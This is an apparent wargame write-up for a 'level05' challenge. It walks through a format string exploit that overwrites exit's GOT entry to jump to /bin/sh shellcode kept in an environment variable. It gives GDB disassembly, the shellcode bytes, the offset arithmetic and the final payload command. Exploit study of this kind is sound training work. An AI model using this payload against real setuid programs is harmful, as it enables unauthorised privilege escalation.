 `env -i su level05` is necessary to succeed

We want to overwrite the GOT table.
To do so we will do a String Format Exploit.


with GDB :
```C
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:	push   %ebp
    [...]
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	movl   $0x0,(%esp)
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
End of assembler dump.
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

### Now we have exit Global Offset Table address `0x080497e0`.
We want to write to that address the address of our shellcode.

Since our offsets are too big, we can't use the same strategy as in rainfall.  
We must first write the 2 first bytes, then the two last bytes.

To do so we will use a format string exploit.

```bash
python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%VALUE1x%10$hn%VALUE2x%11$hn")'
                  ^^^^^^^^^^^^^^^^
                       see 1.
                                  ^^^^^^^^^^^^^^^^
                                       see 2.
                                                       ^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                                                 see 3.
```

1. `\xe0\x97\x04\x08` will be used to write with hn on the first two bytes of this address.
2. `\xe2\x97\x04\x08` is 2 bytes after the first address, which we will use to write on the two last bytes with hn.
3. After that we just need to know where our Shellcode is located in the stack in order to replace `VALUE1` and `VALUE2`.

We need to export our NOP sled + Shell Code :
`export SHELLCODE=$(python -c 'print("\x90" * 100 + "\x31\xc9\xf7\xe1\x04\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")')`

## From here, it should be redone whenever you export SHELLCODE again
When the shellcode is in the env, we need to find its address to know what to put in `VALUE1` and `VALUE2`.
```C
(gdb) b main                
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/20s *(char**)environ
0xffffddfa:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341\004\vQh//shh/bin\211\343̀"
0xffffde7e:	 "SHELL=/bin/bash"
0xffffde8e:	 "USER=level05"
```

So our shellcode starts at `0xffffddfa`. If we write an address further away, meaning after the `=` char which is 10 bytes after, but before the end of the NOP sled, we will automaticaly reach the shell code.

So let's use `0xffffde20`

```
0xffffde20
  ^^^^
  val1
      ^^^^
      val2
```

However, in the printf, we wrote a bit of data already, 8 bytes exactly, the 2 starting address we want to write with printf.  
`VALUE1` will be de20 = 56864. /!\ However, we need to substract the 8 bytes already written : 56864 - 8 --> 56856.  
`VALUE2` : ffff = 65535. /!\ However, we need to substract the 8 bytes AND the `VALUE1` already written : 65535 - 56856 - 8 --> 8671.  

The fully written payload is :

`(python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%VALUE1x%10$hn%VALUE2x%11$hn")'; cat) | ./level05`
